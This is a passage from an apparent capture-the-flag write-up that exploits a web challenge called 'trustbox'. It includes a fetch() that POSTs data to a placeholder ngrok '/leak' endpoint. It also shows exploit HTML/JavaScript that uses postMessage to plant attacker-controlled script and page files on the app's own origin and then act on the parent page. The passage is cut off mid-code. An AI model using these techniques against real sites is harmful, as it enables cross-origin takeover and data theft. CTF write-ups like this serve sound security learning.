 Now to start the server and make it available on the internet we will use 
[ngrok](https://ngrok.com/):

```bash
$ go run main.go
$ ngrok http 3000
```

To prove that the setup works, I wrote myself a simple html page which
just sends a request to the `/leak` endpoint:

```html
<!-- File: index.html -->
<html>
<script>
    // TODO: replace the link with the one you got from ngrok
    fetch('https://XXXX.ngrok.io/leak', {
        method: 'POST',
        body: "Hello from the other frame 🎶🎵",
    })
</script>
</html>
```

And it works, I can automatically send myself messages and successfully 
control the trustbox's iframe with:
`https://trustbox.hackthe.space/?debug=https://XXXX.ngrok.io`

### Exploiting

After **a lot** of other attempts, we figured out that when we open a file 
that was uploaded to trustbox and typing `window.origin` into the 
console it returns `https://trustbox.hackthe.space` which is the same origin as
the root page of the application. This means that if we can use such an uploaded
file as the iframes source we can manipulate the parent page as there is no 
longer cross origin violation.

So with this in mind I wrote the following `index.html`:

```html
<!-- File: index.html -->
<!DOCTYPE html>
<html lang="en">
  <iframe id="child" src="https://trustbox.hackthe.space/store"></iframe>
  <script>
    async function createEvilJS() {
      const js = `const header = document.createElement("h1");
        header.innerText = "Flotschi was here";
        window.parent.document.getElementById("upfiles").appendChild(header);`;

      const file = new File([js], "evil_script", {
        type: "application/javascript",
      });
      const iframe = document.getElementById("child").contentWindow;
      iframe.postMessage({ action: "add", file: file }, "*");
    }

    async function createEvilHTML(evilJS) {
      const html = `<html> <script src="${evilJS}"><\/script></html>`;
      const file = new File([html], "evil_page", {
        type: "text/html",
      });
      const iframe = document.getElementById("child").contentWindow;
      iframe.postMessage({ action: "add", file: file }, "*");
    }

    window.addEventListener(
```